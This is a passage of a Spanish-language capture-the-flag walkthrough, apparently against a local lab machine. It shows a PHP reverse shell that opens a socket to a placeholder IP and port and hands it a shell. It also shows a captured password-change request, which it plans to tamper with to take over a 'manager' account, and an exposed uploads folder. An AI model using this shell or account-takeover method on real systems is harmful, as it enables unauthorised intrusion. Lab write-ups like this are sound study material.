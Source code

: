 ## Escalate user www-data

Vamos a crearnos el siguiente archivo.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo intentamos subir veremos que no funciona, por lo que vamos a subir una foto normal para ver como responde la pagina.

Veremos que una imagen normal se sube de forma correcta, pero tambien podemos cambiar la contraseña del usuario, se nos ocurre que podemos intentar cambiar la contraseña del usuario `manager`, para ello vamos a capturar la peticion de cambiarla con `BurpSuite` y veremos algo asi:

```
POST /account.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/account.php
Cookie: PHPSESSID=un90l8o0mrkeas2gef3d3lqvci
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=diseo&numero=4552058398984283&new_password=diseo&confirm_password=diseo
```

Si probamos a donde pone `username` poner `manager` y le damos a `ENTER` veremos en la respuesta del servidor que pone `Usuario no encontrado` por lo que tendremos que saber el numero exacto del usuario `manager` para cambiarlo en la seccion llamada `numero`, vamos a ver en que formato y en que nombre se guardan las fotos de perfil.

Ya que cuando enviamos la peticion de cambiar la contraseña tambien vemos el nombre de la foto de perfil.

```html
<img src="uploads/avatars/4552058398984283.jpg" alt="Avatar" class="avatar">
```

Vamos a ver la siguiente carpeta.

```
URL = http://<IP>/uploads/avatars/
```

Info:
